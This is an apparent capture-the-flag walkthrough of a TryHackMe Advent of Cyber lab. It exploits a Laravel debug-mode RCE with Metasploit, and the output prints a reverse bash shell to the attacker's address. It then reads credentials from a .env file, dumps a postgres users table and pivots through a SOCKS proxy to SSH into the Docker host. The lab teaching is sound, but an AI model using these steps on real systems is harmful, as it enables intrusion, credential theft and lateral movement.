

# Advent of Cyber 2022 - Dock the halls

How to pivot from docker to docker instance inside a machine. This can be very usefull when we have different services running on different docker images on the same machine.

## Enumeration

### NMAP

```
$ sudo nmap -sV -p- 10.10.220.131
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-09 13:44 EDT
Nmap scan report for 10.10.220.131
Host is up (0.063s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.54 ((Debian))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.40 seconds
```

The machine has 1 http port open

### Exploring the Website

Exploring the website we can find it is using Laravel v8.26.1 (PHP v7.4.30)



We can find a few POC's of exploits for this and previous versions of laravel based website. They are exploitable if they run in debug mode, CVE-2021-3129.

Let's try to scan and exploit this using using metasploit.

## Exploit

### msf console

```
msf6 > search laravel debug

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/multi/php/ignition_laravel_debug_rce  2021-01-13       excellent  Yes    Unauthenticated remote code execution in Ignition


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/php/ignition_laravel_debug_rce                                        
```

```
msf6 > use 0
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/php/ignition_laravel_debug_rce) > set rhost 10.10.220.131
rhost => 10.10.220.131
msf6 exploit(multi/php/ignition_laravel_debug_rce) > set verbose true
verbose => true
msf6 exploit(multi/php/ignition_laravel_debug_rce) > set lhost 10.18.22.237 
lhost => 10.18.22.237
msf6 exploit(multi/php/ignition_laravel_debug_rce) > exploit

[+] bash -c '0<&146-;exec 146<>/dev/tcp/10.18.22.237/4444;sh <&146 >&146 2>&146'
[*] Started reverse TCP handler on 10.18.22.237:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking component version to 10.10.220.131:80
[*] Debug mode is enabled.
[*] Found PHP 7.4.30 running Laravel 8.26.1
[+] The target appears to be vulnerable.
[*] Trying to detect log file
[*] Found directory candidate /var/www
[*] Checking if /var/www/storage/logs/laravel.log exists
[*] Found log file /var/www/storage/logs/laravel.log
[*] Command shell session 1 opened (10.18.22.237:4444 -> 10.10.220.131:58386) at 2023-10-09 14:38:33 -0400
```

**We got a shell**

```
ls
favicon.ico
index.php
robots.txt
web.config
whoami
www-data
```

### Upgrade to a meterpreter session

We can hit ```ctrl + z``` to background a session

To view what shell we have in background we can use the command ```sessions```

Then to upgrade we can go:

```sessions -u id_of_shell```

```
msf6 exploit(multi/php/ignition_laravel_debug_rce) > sessions 2
[*] Starting interaction with 2...

meterpreter > ls
Listing: /var/www/html
======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  603   fil   2022-09-10 20:44:10 -0400  .htaccess
100644/rw-r--r--  0     fil   2022-09-10 20:44:10 -0400  favicon.ico
100644/rw-r--r--  1731  fil   2022-09-10 20:44:10 -0400  index.php
100644/rw-r--r--  24    fil   2022-09-10 20:44:10 -0400  robots.txt
100644/rw-r--r--  1194  fil   2022-09-10 20:44:10 -0400  web.config
```

How do we know we are inside a Docker container? Under the / directory we can find a .dockerenv file. This file contains the environment variables defined inside the container. 


```
meterpreter > ls
Listing: /
==========

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100755/rwxr-xr-x  0     fil   2022-09-13 15:39:42 -0400  .dockerenv
040755/rwxr-xr-x  4096  dir   2022-09-13 05:48:51 -0400  bin
040755/rwxr-xr-x  4096  dir   2022-09-03 08:10:00 -0400  boot
040755/rwxr-xr-x  340   dir   2023-10-09 12:58:16 -0400  dev
040755/rwxr-xr-x  4096  dir   2022-09-13 15:39:42 -0400  etc
040755/rwxr-xr-x  4096  dir   2022-09-03 08:10:00 -0400  home
040755/rwxr-xr-x  4096  dir   2022-09-13 05:45:24 -0400  lib
040755/rwxr-xr-x  4096  dir   2022-09-11 20:00:00 -0400  lib64
040755/rwxr-xr-x  4096  dir   2022-09-11 20:00:00 -0400  media
040755/rwxr-xr-x  4096  dir   2022-09-11 20:00:00 -0400  mnt
040755/rwxr-xr-x  4096  dir   2022-09-11 20:00:00 -0400  opt
040555/r-xr-xr-x  0     dir   2023-10-09 12:58:15 -0400  proc
040700/rwx------  4096  dir   2022-09-13 13:03:40 -0400  root
040755/rwxr-xr-x  4096  dir   2022-09-13 05:48:53 -0400  run
040755/rwxr-xr-x  4096  dir   2022-09-13 05:48:51 -0400  sbin
040755/rwxr-xr-x  4096  dir   2022-09-11 20:00:00 -0400  srv
040555/r-xr-xr-x  0     dir   2023-10-09 12:58:16 -0400  sys
041777/rwxrwxrwx  4096  dir   2023-10-09 14:42:55 -0400  tmp
040755/rwxr-xr-x  4096  dir   2022-09-11 20:00:00 -0400  usr
040755/rwxr-xr-x  4096  dir   2022-09-13 05:45:28 -0400  var

```


### Finding credentials to other services

The .env file of applications usually contains credentials for machines and we can usually use these credentials to pivot and access other services.

```
meterpreter > ls
Listing: /var/www
=================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100644/rw-r--r--  868     fil   2022-09-12 13:08:52 -0400  .env
040755/rwxr-xr-x  4096    dir   2022-09-13 12:55:46 -0400  app
100755/rwxr-xr-x  1686    fil   2022-09-10 20:44:10 -0400  artisan
040755/rwxr-xr-x  4096    dir   2022-09-13 12:59:46 -0400  bootstrap
100644/rw-r--r--  1613    fil   2022-09-10 20:44:10 -0400  composer.json
100644/rw-r--r--  247888  fil   2022-09-10 21:01:13 -0400  composer.lock
040755/rwxr-xr-x  4096    dir   2022-09-13 12:55:46 -0400  config
040755/rwxr-xr-x  4096    dir   2022-09-13 12:55:46 -0400  database
040755/rwxr-xr-x  4096    dir   2022-09-13 12:55:46 -0400  html
100644/rw-r--r--  944     fil   2022-09-10 20:44:10 -0400  package.json
040755/rwxr-xr-x  4096    dir   2022-09-13 12:55:46 -0400  resources
040755/rwxr-xr-x  4096    dir   2022-09-13 12:55:46 -0400  routes
100644/rw-r--r--  563     fil   2022-09-10 20:44:10 -0400  server.php
040755/rwxr-xr-x  4096    dir   2022-09-13 12:59:46 -0400  storage
040755/rwxr-xr-x  4096    dir   2022-09-13 13:04:52 -0400  vendor
100644/rw-r--r--  559     fil   2022-09-10 21:14:21 -0400  webpack.mix.js

meterpreter > cat .env 
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:NEMESCXelEv2iYzbgq3N30b9IAnXzQmR7LnSzt70rso=
APP_DEBUG=true
APP_URL=http://localhost

LOG_CHANNEL=stack
LOG_LEVEL=debug

DB_CONNECTION=pgsql
DB_HOST=webservice_database
DB_PORT=5432
DB_DATABASE=postgres
DB_USERNAME=postgres
DB_PASSWORD=postgres

BROADCAST_DRIVER=log
CACHE_DRIVER=file
QUEUE_CONNECTION=sync
SESSION_DRIVER=file
SESSION_LIFETIME=120

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

MAIL_MAILER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null
MAIL_FROM_ADDRESS=null
MAIL_FROM_NAME="${APP_NAME}"

AWS_ACCESS_KEY_ID=
AWS_SECRET_ACCESS_KEY=
AWS_DEFAULT_REGION=us-east-1
AWS_BUCKET=

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
```

### We can find the local IP to these services using meterpreter's resolve

```
meterpreter > resolve webservice_database

Host resolutions
================

    Hostname             IP Address
    --------             ----------
    webservice_database  172.28.101.51
```

## Routing this to the outsite so we can access these services.

We could try to access these services from inside the machine but may also try to use the current session we have on the web instance as a proxy as a way to get into these services.

We can background this session and add a route to the ip we found on the machine to a session to that machine. 

```
meterpreter > background 
[*] Backgrounding session 2...
msf6 exploit(multi/php/ignition_laravel_debug_rce) > sessions

Active sessions
===============

  Id  Name  Type                   Information            Connection
  --  ----  ----                   -----------            ----------
  1         shell cmd/unix                                10.18.22.237:4444 ->
                                                          10.10.220.131:58386 (
                                                          10.10.220.131)
  2         meterpreter x86/linux  www-data @ 172.28.101  10.18.22.237:4433 ->
                                   .50                    10.10.220.131:42078 (
                                                          172.28.101.50)

msf6 exploit(multi/php/ignition_laravel_debug_rce) > route add 172.28.101.51 2
[*] Route added
```

### Dumping the database

First let's find out it's schema

```
msf6 exploit(multi/php/ignition_laravel_debug_rce) > route add 172.28.101.51 2
[*] Route added
msf6 exploit(multi/php/ignition_laravel_debug_rce) > search postgres dump

Matching Modules
================

   #  Name                                            Disclosure Date  Rank    Check  Description
   -  ----                                            ---------------  ----    -----  -----------
   0  auxiliary/admin/http/manageengine_pmp_privesc   2014-11-08       normal  Yes    ManageEngine Password Manager SQLAdvancedALSearchResult.cc Pro SQL Injection
   1  auxiliary/analyze/crack_databases                                normal  No     Password Cracker: Databases
   2  auxiliary/scanner/postgres/postgres_hashdump                     normal  No     Postgres Password Hashdump
   3  auxiliary/scanner/postgres/postgres_schemadump                   normal  No     Postgres Schema Dump
   4  post/linux/gather/vcenter_secrets_dump          2022-04-15       normal  No     VMware vCenter Secrets Dump


Interact with a module by name or index. For example info 4, use 4 or use post/linux/gather/vcenter_secrets_dump                                                  

msf6 exploit(multi/php/ignition_laravel_debug_rce) > use 3
msf6 auxiliary(scanner/postgres/postgres_schemadump) > 
```

```
msf6 auxiliary(scanner/postgres/postgres_schemadump) > set rhosts 172.28.101.51
rhosts => 172.28.101.51
msf6 auxiliary(scanner/postgres/postgres_schemadump) > exploit 

[*] 172.28.101.51:5432 - Found databases: postgres, template1, template0. Ignoring template1, template0.
[+] Postgres SQL Server Schema 
 Host: 172.28.101.51 
 Port: 5432 
 ====================

---
- DBName: postgres
  Tables:
  - TableName: users_id_seq
    Columns:
    - ColumnName: last_value
      ColumnType: int8
      ColumnLength: '8'
    - ColumnName: log_cnt
      ColumnType: int8
      ColumnLength: '8'
    - ColumnName: is_called
      ColumnType: bool
      ColumnLength: '1'
  - TableName: users
    Columns:
    - ColumnName: id
      ColumnType: int4
      ColumnLength: '4'
    - ColumnName: username
      ColumnType: varchar
      ColumnLength: "-1"
    - ColumnName: password
      ColumnType: varchar
      ColumnLength: "-1"
    - ColumnName: created_at
      ColumnType: timestamp
      ColumnLength: '8'
    - ColumnName: deleted_at
      ColumnType: timestamp
      ColumnLength: '8'
  - TableName: users_pkey
    Columns:
    - ColumnName: id
      ColumnType: int4
      ColumnLength: '4'

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/postgres/postgres_schemadump) > 
```


In order to connect to the database I will use the admin/postgres/postgres_sql module.

```
msf6 auxiliary(scanner/postgres/postgres_schemadump) > search postgres admin

Matching Modules
================

   #  Name                                           Disclosure Date  Rank    Check  Description
   -  ----                                           ---------------  ----    -----  -----------
   0  auxiliary/admin/http/manageengine_pmp_privesc  2014-11-08       normal  Yes    ManageEngine Password Manager SQLAdvancedALSearchResult.cc Pro SQL Injection
   1  auxiliary/admin/postgres/postgres_readfile                      normal  No     PostgreSQL Server Generic Query
   2  auxiliary/admin/postgres/postgres_sql                           normal  No     PostgreSQL Server Generic Query
   3  auxiliary/admin/http/rails_devise_pass_reset   2013-01-28       normal  No     Ruby on Rails Devise Authentication Password Reset
   4  post/linux/gather/vcenter_secrets_dump         2022-04-15       normal  No     VMware vCenter Secrets Dump


Interact with a module by name or index. For example info 4, use 4 or use post/linux/gather/vcenter_secrets_dump                                                  

msf6 auxiliary(scanner/postgres/postgres_schemadump) > use 2
msf6 auxiliary(admin/postgres/postgres_sql) > 

```


```
msf6 auxiliary(admin/postgres/postgres_sql) > set database postgres
database => postgres
msf6 auxiliary(admin/postgres/postgres_sql) > set sql select * from users
sql => select * from users
msf6 auxiliary(admin/postgres/postgres_sql) > exploit 
[*] Running module against 172.28.101.51

Query Text: 'select * from users'
=================================

    id  username  password  created_at                  deleted_at
    --  --------  --------  ----------                  ----------
    1   santa     p4$$w0rd  2022-09-13 19:39:51.669279  NIL

[*] Auxiliary module execution completed
```

## Can we find the host computer where these docker containers are running

By default, Docker chooses a hard-coded IP to represent the host machine.

```172.17.0.1```


We can use this IP, route it throught the docker contatiner we have access to and comunicate with the host machine from there. 

```
msf6 auxiliary(admin/postgres/postgres_sql) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.17.0.1         255.255.255.255    Session 3
   172.28.101.51      255.255.255.252    Session 3

```

### Proxy

If we for example want to user nmap on this machine we need to add a proxy, so our host machine knows how to route comunication throught the active sessions we have on metasploit. We can do that with the **socks proxy** module in Metasploit

```
msf6 auxiliary(admin/postgres/postgres_sql) > search socks proxy

Matching Modules
================

   #  Name                          Disclosure Date  Rank    Check  Description
   -  ----                          ---------------  ----    -----  -----------
   0  auxiliary/server/socks_proxy                   normal  No     SOCKS Proxy Server
   1  auxiliary/server/socks_unc                     normal  No     SOCKS Proxy UNC Path Redirection


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/server/socks_unc

msf6 auxiliary(admin/postgres/postgres_sql) > use 0
```

```
msf6 auxiliary(server/socks_proxy) > show options

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all add
                                       resses.
   SRVPORT  1080             yes       The port to listen on
   VERSION  5                yes       The SOCKS version to use (Accepted: 4a, 5)


   When VERSION is 5:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   USERNAME                   no        Proxy username for SOCKS5 listener


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


View the full module info with the info, or info -d command.

msf6 auxiliary(server/socks_proxy) > run 
[*] Auxiliary module running as background job 2.
msf6 auxiliary(server/socks_proxy) > 
[*] Starting the SOCKS proxy server

msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  2   Auxiliary: server/socks_proxy

```


We dont need to change any options, just take a note on what port it is open at and the version of socks it is running. 

Change your proxychains configuration file
 
```$ sudo nano /etc/proxychains4.conf ```


### NMAP with proxy

```
$ proxychains nmap -sV -sT -Pn 172.17.0.1
```

```
Nmap scan report for rafael-K55VJ (172.17.0.1)
Host is up (0.060s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.30 seconds
```

## Accessing santas computer with ssh and a proxy

Simmilarly we can use proxychains again to access the host of the docker container. We can also use the password we got from the postgres database and see if the credentials are the same.

```
$ proxychains ssh santa@172.17.0.1
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.1:22  ...  OK
santa@172.17.0.1's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-156-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@hostname:~# ls
root.txt
root@hostname:~# cat root.txt
THM{**************************}
root@hostname:~# 
```


## Traversal and Pivoting

The machine we were attacking contained only one open http port that router directly into a Docker container, even if we can exploit that http instance, we are still container inside. This is where pivoting is important. If we are able to access other docker containers or even the host machine we gather a lot more value from this machine. In this example we could access a SSH service not accessible from the interner and take control over the host machine from the docker container we previously comprimised.


